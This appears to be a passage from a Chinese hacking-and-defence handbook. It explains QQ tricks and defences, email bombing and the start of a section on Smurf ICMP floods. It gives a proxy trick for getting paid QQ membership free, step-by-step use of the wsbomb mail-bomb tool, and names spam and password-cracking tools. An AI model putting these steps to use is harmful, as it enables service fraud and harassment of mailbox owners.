打开信息发送框，我们可以看到上面的选择字体框，里面显示了你所选的具体字体样式，如“宋体（CHINESE_GB2312）”。我们只要把鼠标放到上面，然后在“宋体（CHINESE_GB2312）”前边加上一个“@”符号，这样当我们再到下面的输入框中输入汉字时，你会发现所有的字体就是横放的了，如图5，是不是很有趣？要注意的是这个方法只对汉字有效，对英文和特殊字符没有作用。



图5

### 5、免费的会员功能

腾讯公司在北京地区开通了拨 96692 上网，在湖南的长沙、常德、衡阳、岳阳、株洲等地用户拨 96163 上网服务，拨这些号码上网的用户能够享受 QQ 会员的服务：会员群的功能、上传聊天记录、会员号码保护、好友上线通知等等。

所以我们只要找一个北京地区用 96692 上网或是湖南地区用 96163 上网的代理服务器，然后用这个 SOCKS 代理来上 QQ，呵呵，这样你就不用花钱也能拥有 QQ 会员的功能了。怎么找呢？你可以用代理猎手之类的软件搜索 96692 和 96163 拨号上网用户的 IP 网段，如图6。像湖南地区 96163 拨号上网的 IP 段是 61.187.*.*，只要在这个网段寻找是否有免费的代理就行了，如图7，就是一个 QQ 会员代理。





如果你用这个代理上 QQ 就有了所有会员的功能了，还可以用 HTTP 代理上 QQ 了。自从 QQ 提供了非常实用的“群”功能，羡慕了好久，可不是会员，要会员才可以新建一个群，最后我就是用这个方法新建立了两个“群”哦。当然如果你想长期稳定地享有 QQ 会员服务，还是用正常的方法比较好。

#### 四、QQ 安全防御

前面我们已经对网上流行的几种常见 QQ 攻击做了简单的介绍，现在我们来看看如何防御这些攻击，以保护你的 QQ！

### 1、防御 QQ 密码窃取

防御密码账号盗窃，首先一定要申请 QQ 密码保护并保护好你的保密信箱，最好能使用手机绑定以便发现意外时取回密码。对于 QQ 在线密码探测，可以把你的 QQ 密码设置得复杂一点，不要用简单的单词、生日、节日等作为密码，最好是用数字+英文+字符的组合，长度不能低于 8 位。对付 QQ 木马最好的方法是不让木马进门，平时注意不要随便下载和运行来历不明的软件，不随便打开陌生人的信件，安装一个好的杀毒软件并定期更新杀毒软件库，经常用进程管理软件查看是否有可疑进程。对付欺骗法要坚持“天下绝对没有免费的午餐”的信念，不要轻信一些来自 QQ 上的诱惑性消息。



其次还可以安装一个专业的“QQ 密码防盗专家”来帮我们防盗。绝大多数 QQ 盗密木马的一个共同特点是：木马通过判断当前 Windows 窗口中有没有名为“QQ 用户登录”或“QQ 注册向导”字样的 QQ 登录界面，如果有则进行盗取。QQ 密码防盗专家从这点入手，破坏 QQ 盗密软件的必备条件——QQ 标题，实时变动法改变 QQ 标题，使 QQ 标题动态改变。因而 QQ 盗密木马就不会认为是要盗的 QQ 登录框而放弃盗密。此软件体积小，支持最新版的 QQ，兼容任何操作系统，可以轻松阻拦 QQ 木马进行盗密，如图1。此外 QQ 密码防盗专家还有取回密码、聊天记录、进程管理等功能。

### 2、防御 QQ 各种攻击

这种攻击，因为要进行 UDP 数据包攻击首先要查到你的 IP 地址，然后才能进行数据包攻击，而一般 IP 地址是通过你的 QQ 来获取的。如果我们通过代理服务器来上 QQ，攻击者探测到的也只是代理服务器的 IP 地址，不是我们真实的 IP 地址，他就攻击不到你了。使用代理服务器还有一个好处，就是别人查不到你所在地了。

一般多用 SOCKS 代理服务器上 QQ，HTTP 代理服务器上 QQ 只有 QQ 会员能用。现在网上有许多免费的 SOCKS 代理服务器，如何寻找，这里推荐大家一个软件：QQ 代理公布器，它会自动帮你找网上免费的 QQ 代理服务器。

对付消息轰炸，加强 QQ 的自身安全设置是有效的方法。在 QQ 的“安全设置”修改身份验证值为：“需要身份认证才能把我加为好友”，不要随便通过陌生人的验证，以及把陌生人加为好友。再把“系统参数”的“参数设置”将“拒绝陌生人消息”选项选中，如图2，这样可以在一定程度上防止一些不速之客找上门了。其次，加强自身的安全意识，不要随便通过陌生人的验证、把陌生人加为好友。

具体用法：下载后进行安装，安装完成后，进入 WINDOWS“开始菜单→程序→QQ 代理”中的 QQ 代理程序，打开后，按“读取数据”，等几秒钟后，下面的显示栏里会显示许多 SOCKS 代理服务器的地址及连接情况，如图3。字体显示发白的地址说明是不能用的代理。然后在 QQ 里把 SOCKS 代理设置好，这样你再上 QQ 时就是通过这个代理的中转来进行通讯了。还有前段时间腾讯公司向台湾的 IP 用户开放免费申请 QQ 的功能，也就是说如果你用台湾的代理上网就可以申请到新的 QQ 号码！





对付 UDP 数据包攻击可以安装金山网镖等个人防火墙，它们能对 UDP 数据包攻击进行有效拦截。也可以用代理上 QQ 以隐藏真实的 IP 来防御。

用文中的防御方法来保护你的 QQ，虽然可以抵御大部分的攻击，但黑客攻击 QQ 的方法层出不穷，防不胜防，网友们在上 QQ 时应该提高警惕。

## 第二节 电子邮件攻击

## 一、EMAIL 炸弹

电子邮件（EMAIL）是 Internet 的重要信息服务之一，它为世界各地的用户提供了一种极为快速、简便和经济的通信方法。电子邮件使用的普遍性也引起黑客们的注意，早在十几年前黑客就开始利用 EMAIL 来发动攻击，现在电子邮件攻击是黑客常用的一种攻击手段，我们这里要谈的就是关于电子邮件攻击。

在介绍 EMAIL 攻击前，我们先来了解一下 Email 的传送过程：互联网上有许许多多的 POP3 服务器、SMTP 服务器提供 Email 服务，有大型的也有小型的，有公众的也有专用的，有免费的也有收费的，就像我们一个个邮局。当然 POP3 服务和 SMTP 服务可以由同一台机器提供。

用户在某个 Email 服务提供商申请了一个账户，那他要发信时用客户机连接这个 Email 服务提供商的 SMTP 服务器，然后把信传给这个服务器。这个 SMTP 服务器判断收件人所在的 Email 服务器地址，把信发送出去，中间可能会经过一些服务器中继然后到达目的 SMTP 服务器。目的 SMTP 服务器收到信后根据收件人姓名把邮件放入相应用户的文件夹中，而收件人收信时则只要用客户机连上他的 Email 服务器的 POP3 服务，就能收到信了。当然其实际过程要复杂得多，这里讲的只是基本过程。

垃圾邮件攻击是黑客常用的一种攻击手段，它是用伪造的 IP 地址及匿名的电子邮件地址向同一信箱发送数以千计、万计甚至无穷多次的内容相同的恶意邮件，也可称之为大容量的垃圾邮件。由于每个人的邮件信箱容量是有限的，当庞大的邮件垃圾到达信箱的时候，就会挤满信箱，使之无法接受正常的邮件。

同时，如果使用多台服务器同时向某服务器发送大量邮件，会占用大量的网络资源，导致网络阻塞，使用户不能正常地连接邮件服务器；严重者可能会给电子邮件服务器操作系统带来危险，几年前就曾有黑客使用这种攻击手段使得新浪、雅虎等几个世界级门户网站的 Email 服务器瘫痪了几十个小时。



图1

早期的 SMTP 服务器不需要身份验证，它像现实生活中的邮筒一样，只要你把信给它它就帮你寄，不管你是谁，这就存在着非常严重的安全问题。黑客利用这点编写程序可以同时打开多个进程，这些 SMTP 服务器帮他发送大量垃圾邮件，所以那时候产生了许多发送匿名垃圾邮件的工具，比如：QuickFyre、KABOOM、EmailBOOM 等。

> 提示：POP3 服务器即邮件接收服务器，提供电子邮件的接收服务。像 163 邮箱的 POP3 服务器域名是 `pop.163.com`。SMTP 服务器即邮件发送服务器，提供电子邮件的发送服务，只能传送文本文件。

KABOOM 是一个最为著名的 EMAIL 炸弹，如图1，它可以不间断发信，常用的匿名邮件服务器地址列表也做在了程序里，可以为所攻击的人订阅一些信量很大的邮件讨论组。但它也是基于匿名服务器的，所以如果你要使用它，首先得找到现在还可以使用的匿名邮件服务器。

不过近年来随着网络的发展，允许匿名发信的 SMTP 服务器越来越少了，一般发信需要 SMTP 验证，所以大多数匿名邮件炸弹工具就失效了。虽然匿名的不能发了，黑客们还有的是办法来发送垃圾邮件。现在的垃圾邮件发送工具开始支持 SMTP 验证，甚至有的就自带 SMTP 服务器，这样使用时本地主机本身就是一台 SMTP 服务器。当然这样主机带宽速度和攻击强度自然是不能和大型邮件服务器相比，而且容易被人追踪到，所以黑客一般会把这些邮件发送工具放到“肉鸡”上，让肉鸡帮他们攻击。目前此类邮件攻击工具有：wsbomb（随心邮件炸弹）、MailHack 等等。



图2

Wsbomb（随心邮件炸弹）是一个本身自带 SMTP 服务器的邮件轰炸程序，如图2，可以直接轰炸到对方的邮件地址，快速高效，支持发送邮件地址列表，发送次数可自定义；DNS 服务器可自定义为高速 DNS 地址，也可以取本机的 DNS 地址；轰炸目标只要在左边 MAIL 地址列表中输入对方的 MAIL 地址就行，一行一个地址，然后输入邮件主题与邮件内容；发送次数为每个邮箱的重复发送次数；发送人的 MAIL 地址可随意更改，包含 @ 符号就行了；最后点击发送就行了，下面有状态显示发送进度。

MailHack，此程序是个专业级的邮件黑客程序，它的多线程邮件炸弹功能一次可以发送 200 份炸弹邮件，可以在十几分钟内把邮箱给塞满，还可以使每封信随机使用不同的源信箱和昵称，如图3。这个程序使用 WINSOCK 在 VC6 环境下全新开发，它不但可以进行邮件轰炸，还具有其他功能，支持 POP3/SMTP/FTP/TCP 扫描，简单友好而又完善的动态密码字典生成工具；同时它创造性地引入了时间差扫描方法，是一款功能强大的邮箱密码破解软件。



图3

因为用垃圾对付垃圾只是在我国反垃圾邮件的法律还不完善情况下的一种变通解决办法。

目前对于解决邮件炸弹还没有有效措施，我们应以预防为主，不要把自己的信箱地址随意公布。对一般用户来说，还可以使用邮件客户端软件的邮件过滤功能设立过滤原则，把不想要的垃圾邮件过滤掉。如果遇到垃圾邮件时可以使用一些对抗邮件炸弹的“砍信”软件，如 E-mail Chomper 等，帮助你快速删除炸弹邮件。对邮件服务器来说，要防御邮件攻击可以对发信者身份进行有效验证，对邮件自动转发等功能要进行限制，防止成为黑客进行邮件攻击的“帮凶”；再则也可以在服务器上对接收的信件设定基于用户、域名、IP 或邮件内容的过滤规则。

#### 二、IP 炸弹

IP 炸弹攻击是进行拒绝服务攻击的常用工具，它们往往能堵塞网络，瘫痪目标。IP 攻击的具体原理和方法各不相同，我们这里要介绍的是一些常见的 IP 数据包攻击方法及其常见工具。

### 1. Smurf 攻击

Smurf 是 ICMP 攻击的一种。该攻击向一个子网的广播地址发一个带有特定请求（如 ICMP 回应请求）的包，并且将源地址伪装成想要攻击的主机地址。子网上所有主机都回应广播包请求而向被攻击主机发包，使该主机受到攻击。

